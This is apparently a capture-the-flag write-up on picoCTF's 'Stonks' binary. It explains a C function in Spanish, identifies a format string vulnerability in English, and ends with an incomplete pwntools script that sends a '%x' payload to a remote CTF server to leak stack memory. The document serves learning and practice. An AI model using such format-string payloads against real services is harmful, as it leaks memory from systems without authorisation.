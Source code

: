La función `buy_stonks(Portfolio *p)` en tu código realiza las siguientes operaciones:

1. Comprueba si el puntero al portafolio `p` es NULL. Si es así, devuelve 1 y termina la función.
    
2. Abre un archivo llamado “api” para lectura y almacena el puntero al archivo en `f`. Si el archivo no se puede abrir (es decir, `f` es NULL), imprime un mensaje de error y termina el programa.
    
3. Lee una línea del archivo “api” en `api_buf`.
    
4. Inicializa `money` con la cantidad de dinero en el portafolio, y `shares` y `temp` a 0 y NULL respectivamente.
    
5. Entra en un bucle mientras haya dinero en el portafolio. En cada iteración del bucle:
    
    - Elige un número aleatorio de acciones para comprar (entre 1 y la cantidad de dinero restante).
    - Crea una nueva “stonk” con ese número de acciones usando la función `pick_symbol_with_AI(shares)`.
    - Añade la nueva “stonk” al principio de la lista de “stonks” en el portafolio.
    - Resta el número de acciones compradas a la cantidad de dinero restante.
6. Pide al usuario que introduzca su token de API, lo almacena en `user_buf`, e imprime el token.
    
7. Llama a la función `view_portfolio(p)` para mostrar el portafolio.
    
8. Devuelve 0 para indicar que la función se ha ejecutado correctamente.
    

Por lo tanto, esta función simula la compra de “stonks” con un algoritmo AI, actualiza el portafolio con las nuevas “stonks”, e interactúa con una supuesta API utilizando un token proporcionado por el usuario. Sin embargo, actualmente no realiza ninguna operación real con la API (como se indica en los comentarios TODO).



Trying to understand this, I was able to know that here we have a vulnerability called "format string attack" or "format string vulnerability"

https://owasp.org/www-community/attacks/Format_string_attack

I tried to retrieve the information putting %x %x %x %x multiple times when the app asked me for a token. So, the only way that I have to do it was with a code, with pwntools that I found, I didnt write it but I can understand what it does.

I recommend to print step by step the code , so you can understand what it does .

```
# import pwntools
from pwn import *
# string to write to
s = "" 

# open up remote connection
r = remote('mercury.picoctf.net', 53437) 
# get to vulnerability 
r.recvuntil("View my") 
r.send("1\n") 
r.recvuntil("What is your API token?\n") 

# send string to print stack 
r.send("%x" + "-%x"*40 + "\n") 

# receive until the line we want 
r.recvline()

# read in line 
x = r.recvline() 

# remove unwanted components 
x = x[:-1].decode() 

# parse to characters 

```